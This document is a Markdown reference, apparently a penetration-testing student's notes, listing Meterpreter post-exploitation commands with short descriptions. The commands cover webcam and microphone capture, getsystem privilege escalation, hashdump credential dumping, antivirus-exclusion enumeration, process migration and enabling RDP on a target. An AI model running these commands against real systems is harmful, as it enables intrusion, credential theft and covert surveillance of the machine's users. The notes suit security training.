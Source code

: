 # Meterpreter Command Reference Notes

The command `meterpreter > ?` is used to display available commands within the **Meterpreter** shell.  
`?` is shorthand for listing commands and modules, grouped by categories such as **stdapi (standard API)** and **priv (privilege escalation)**.

---

## Stdapi: Webcam Commands
Commands for interacting with webcams and microphones.

| Command        | Description                                               |
|----------------|-----------------------------------------------------------|
| `record_mic`   | Record audio from the default microphone for *X* seconds. |
| `webcam_chat`  | Start a video chat.                                       |
| `webcam_list`  | List available webcams.                                   |
| `webcam_snap`  | Take a snapshot from the specified webcam.                |
| `webcam_stream`| Play a video stream from the specified webcam.            |

---

## Stdapi: Audio Output Commands
Commands for controlling audio playback on the target system.

| Command | Description                                                                 |
|---------|-----------------------------------------------------------------------------|
| `play`  | Play an audio file on the target system (nothing written to disk).          |

---

## Priv: Elevate Commands
Commands for escalating privileges on the target system.

| Command     | Description                                                               |
|-------------|---------------------------------------------------------------------------|
| `getsystem` | Attempt to elevate your privilege to that of the **local system account**.|

---

## Additional Meterpreter Commands & Context

| Command / Search | Description                                                                                      |
|------------------|--------------------------------------------------------------------------------------------------|
| `screenshot`     | Capture a screenshot of the target system.                                                       |
| `getsystem`      | Attempt to elevate privileges to SYSTEM.                                                         |
| `getuid`         | Display the username the Meterpreter session is running as.                                      |
| `hashdump`       | Dump password hashes from the target system.                                                     |
| `show_mount`     | List mounted drives/shares.                                                                      |
| `ps`             | List running processes.                                                                          |
| `migrate 2212`   | Migrate Meterpreter to another process (PID 2212 in this case).                                  |
| `sysinfo`        | Display system information (OS, architecture, etc.).                                             |
| `download flag.txt` | Download a file (`flag.txt`) from the target system.                                          |
| `search migrate` | Search for migration-related modules.                                                            |
| `post/windows/manage/archmigrate` | Change the architecture of the current session.                                 |
| `post/windows/manage/migrate`     | Migrate Meterpreter to another process.                                         |
| `search win_privs` | Search for Windows privilege enumeration modules.                                              |
| `post/windows/gather/win_privs`   | Enumerate privileges of the user session.                                       |
| `post/windows/gather/enum_logged_on_users` | Enumerate logged-on users.                                             |
| `search checkvm` | Search for VM-detection modules.                                                                 |
| `post/windows/gather/checkvm` | Check if the target is running inside a virtual machine.                            |
| `search enum_application` | Search for application enumeration modules.                                             |
| `post/windows/gather/enum_application` | Enumerate installed applications.                                          |
| `loot`           | Show collected loot (stored in `/root/msf/loot/`).                                               |
| `search type:post platform:windows enum_av` | Search for AV enumeration modules.                                    |
| `post/windows/gather/enum_av_excluded` | Enumerate antivirus exclusions.                                            |
| `set session` → `run` | Set a session and run the module to gather AV/Defender/Symantec data.                       |
| `search enum_computers` | Search for modules to enumerate computers in the network/domain.                          |
| `post/windows/gather/enum_computers` | Determine if the computer is part of a domain.                               |
| `search enum_patches` | Search for patch enumeration modules.                                                       |
| `shell`          | Drop into a system shell on the target.                                                          |
| `systeminfo`     | Show system information, including installed patches and hotfix IDs.                             |
| `search enum_shares` | Search for file share enumeration modules.                                                   |
| `post/windows/gather/enum_shares` | Enumerate shared resources.                                                     |
| `set sessions`   | Assign session(s) for module execution.                                                          |
| `search rdp platform:windows` | Search for RDP-related modules.                                                     |
| `post/windows/manage/enable_rdp` | Enable RDP on the target system.                                                 |

---

## Contextual Notes
- These commands highlight Meterpreter’s capability for **post-exploitation** tasks:  
  - Surveillance (e.g., `record_mic`, `webcam_stream`, `screenshot`).  
  - Privilege escalation (e.g., `getsystem`, privilege enumeration modules).  
  - Lateral movement and persistence (`migrate`, `archmigrate`, `enable_rdp`).  
  - Information gathering (`sysinfo`, `enum_*` modules).  
  - Credential access (`hashdump`).  
- Collected **loot** is saved in `/root/msf/loot/`.  
